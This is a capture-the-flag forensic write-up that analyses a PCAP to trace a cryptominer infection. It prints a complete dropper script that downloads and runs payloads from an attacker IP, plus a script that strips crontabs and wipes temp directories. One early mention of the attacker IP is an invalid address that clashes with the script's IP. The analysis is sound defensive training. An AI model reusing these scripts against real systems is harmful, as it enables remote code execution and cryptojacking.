Cuidado

Recently, a user triggered multiple alerts after downloading several potentially unwanted applications (PUAs), prompting concern from the security team.
To gain deeper insight into the user's activity, the team began monitoring network traffic from their workstation. Their objective is to assess whether the downloads are linked to more serious malware threats.
Task 1
What is the victim's IP address?
The challenge archive contains a singular PCAP file. I will use Wireshark to analyse it.

Immediately after opening the file, I can see a few requests originating from 192.168.1.152. More than that, the same IP address is reaching out to ocsp.godaddy.com, an Online Certificate Status Protocol server address for GoDaddy.
This allows web browsers to check in real-time if an SSL/TLS certificate issued by GoDaddy has been revoked or is still valid. This action was most definitely initiated by the victim themselves, which confirms that the IP belongs to them.

Task 2
What is the IP address of the attacker from whom the files were downloaded?
I can see all the downloaded objects within this PCAP by going to Export Objects -> HTTP

There are unusual files being downloaded from the 94.256.177.109 address. Most of the downloaded content comes from the certificate-related domains and has the content type of application/ocsp-response, but this address sticks out like a sore thumb.

Task 3
Which malicious file appears to be the first one downloaded?
I know which files were downloaded, and actually, I already know the order in which they were downloaded. This is because the exported objects list is sorted from the earliest to the latest packet.
To confirm that this is right, I'll use the filter tab in Wireshark to view HTTP packets only.

sh is the first file downloaded. The / endpoint serves as a redirect to the main page/index of the website, and is not a file.

Task 4
What is the name of the function that the attacker used to downlollad the payload?
I can export the sh file onto my box by selecting it in the exported objects window and pressing save

# sh
#!/bin/bash
dlr() {
wget http://94.156.177.109/$1 || curl -O http://94.156.177.109/$1
if [ $? -ne 0 ]; then
exec 3<>"/dev/tcp/94.156.177.109/80"
echo -e "GET /$1 HTTP/1.0\r\nHost: 94.156.177.109\r\n\r\n" >&3
(while read -r line; do [ "$line" = $'\r' ] && break; done && cat) <&3 >$1
exec 3>&-
fi
}
NOEXEC_DIRS=$(cat /proc/mounts | grep 'noexec' | awk '{print $2}')
EXCLUDE=""
for dir in $NOEXEC_DIRS; do
EXCLUDE="${EXCLUDE} -not -path \"$dir\" -not -path \"$dir/*\""
done
FOLDERS=$(eval find / -type d -user $(whoami) -perm -u=rwx -not -path \"/tmp/*\" -not -path \"/proc/*\" $EXCLUDE 2>/dev/null)
ARCH=$(uname -mp)
OK=true
for i in $FOLDERS /tmp /var/tmp /dev/shm; do
if cd "$i" && touch .testfile && (dd if=/dev/zero of=.testfile2 bs=2M count=1 >/dev/null 2>&1 || truncate -s 2M .testfile2 >/dev/null 2>&1); then
rm -rf .testfile .testfile2
break
fi
done
dlr clean
chmod +x clean
sh clean >/dev/null 2>&1
rm -rf clean
rm -rf .redtail
if echo "$ARCH" | grep -q "x86_64" || echo "$ARCH" | grep -q "amd64"; then
dlr x86_64
mv x86_64 .redtail
elif echo "$ARCH" | grep -q "i[3456]86"; then
dlr i686
mv i686 .redtail
elif echo "$ARCH" | grep -q "armv8" || echo "$ARCH" | grep -q "aarch64"; then
dlr aarch64
mv aarch64 .redtail
elif echo "$ARCH" | grep -q "armv7"; then
dlr arm7
mv arm7 .redtail
else
OK=false
for a in x86_64 i686 aarch64 arm7; do
dlr $a
cat $a >.redtail
chmod +x .redtail
./.redtail $1 >/dev/null 2>&1
rm -rf $a
done
fi
if [ $OK = true ]; then
chmod +x .redtail
./.redtail $1 >/dev/null 2>&1
fi
This is the whole sh script. It begins with a dlr function which downloads a provided file (in this case, clean), with some nice fallback methods in place if wget or curl are not present on the target.

Task 5
Which port does the attacker's server use?
By default, curl and wget will use port 80 if it's not specified. If that wasn't known, this line exec 3<>"/dev/tcp/94.156.177.109/80" reveals the port completely.

Task 6
The script checks which directories it can write to by attempting to create test files. What is the size of the second test file? (Size in MB)
The mentioned functionality is located within one of the FOR loops.
for i in $FOLDERS /tmp /var/tmp /dev/shm; do
if cd "$i" && touch .testfile && (dd if=/dev/zero of=.testfile2 bs=2M count=1 >/dev/null 2>&1 || truncate -s 2M .testfile2 >/dev/null 2>&1); then
rm -rf .testfile .testfile2
break
fi
done
For each folder under /tmp, /var/tmp and /dev/shm, it will try to write two files. One empty, created with touch(0MB), and one with a size of 2M(made with dd), then delete them. This is done to check which directories are writable and which are not.

Task 7
What is the full command that the script uses to identify the CPU architecture?
A bit further in the script, uname -mp is used to grab the machine hardware name and the processor type.
ARCH=$(uname -mp)
The processor type is then used to determine which file should be downloaded next from the attacker-controlled server.
rm -rf .redtail
if echo "$ARCH" | grep -q "x86_64" || echo "$ARCH" | grep -q "amd64"; then
dlr x86_64
mv x86_64 .redtail
elif echo "$ARCH" | grep -q "i[3456]86"; then
dlr i686
mv i686 .redtail
elif echo "$ARCH" | grep -q "armv8" || echo "$ARCH" | grep -q "aarch64"; then
dlr aarch64
mv aarch64 .redtail
elif echo "$ARCH" | grep -q "armv7"; then
dlr arm7
mv arm7 .redtail
else
OK=false
for a in x86_64 i686 aarch64 arm7; do
dlr $a
cat $a >.redtail
chmod +x .redtail
./.redtail $1 >/dev/null 2>&1
rm -rf $a
done
fi

Task 8
What is the name of the file that is downloaded after the CPU architecture is compared with reference values?
Here is the list of all the files downloaded from the attacker in order:
sh
clean
x86_64 [!]
The last file fits what I already know. The victim machine's architecture must have been x86_64, and as a result, a malicious file with the same name was downloaded from the attacker.

Task 9
What is the full command that the attacker used to disable any existing mining service?
I'll take a look at the next downloaded file, clean
#!/bin/bash
clean_crontab() {
chattr -ia "$1"
grep -vE 'wget|curl|/dev/tcp|/tmp|\.sh|nc|bash -i|sh -i|base64 -d' "$1" >/tmp/clean_crontab
mv /tmp/clean_crontab "$1"
}
systemctl disable c3pool_miner
systemctl stop c3pool_miner
chattr -ia /var/spool/cron/crontabs
for user_cron in /var/spool/cron/crontabs/*; do
[ -f "$user_cron" ] && clean_crontab "$user_cron"
done
for system_cron in /etc/crontab /etc/crontabs; do
[ -f "$system_cron" ] && clean_crontab "$system_cron"
done
for dir in /etc/cron.hourly /etc/cron.daily /etc/cron.weekly /etc/cron.monthly /etc/cron.d; do
chattr -ia "$dir"
for system_cron in "$dir"/*; do
[ -f "$system_cron" ] && clean_crontab "$system_cron"
done
done
clean_crontab /etc/anacrontab
for i in /tmp /var/tmp /dev/shm; do
rm -rf $i/*
done
This script cleans the provided file by searching for anything NOT matching the pattern provided in the grep -vE command, and saving that to the /tmp/clean_crontab file. It'll then overwrite any provided file with the cleaned crontab.
It then disables and stops a c3pool_miner service, and cleans every crontab file listed in the script.

Task 10
Apparently, the attacker used a packer to compress the malware. Which version of this packer was used? (Format X.XX)
I will open the x86_64 file in DIE(Detect It Easy) to gather more information about it.

The malware is packed with the UPX packer 4.23. Another way to find this without using DIE at all is to run strings against the executable.


Task 11
What is the entropy value of unpacked malware?
I'll unpack the file using UPX itself with the -d flag.

Sending this unpacked file over into DIE reveals more information, but the crucial one for this challenge isn't precise enough.

DIE displays the entropy value as 6.48845, but it is not the valid answer. To get a more precise value, I will use the ent binary to calculate the entropy value of this executable.

This value has 1 space more than the one from DIE, and as such, is the correct answer.

Task 12
What is the file name with which the unpacked malware was submitted on VirusTotal for the first time?
I'll upload the malware to VirusTotal in its unpacked form.

VT identifies the malware as a miner. Looking at the details tab, I can see a list of names with which it had been uploaded by other users before.

The earliest names lie at the bottom. After expanding the list, I scrolled down to the last result and found the answer.

Task 13
What MITRE ATT&CK technique ID is associated with the main purpose of the malware?
The malware's main purpose is mining cryptocurrency. Searching for the appropriate MITRE ATT&CK ID led me to the ID of T1496
https://attack.mitre.org/techniques/T1496/

Solved!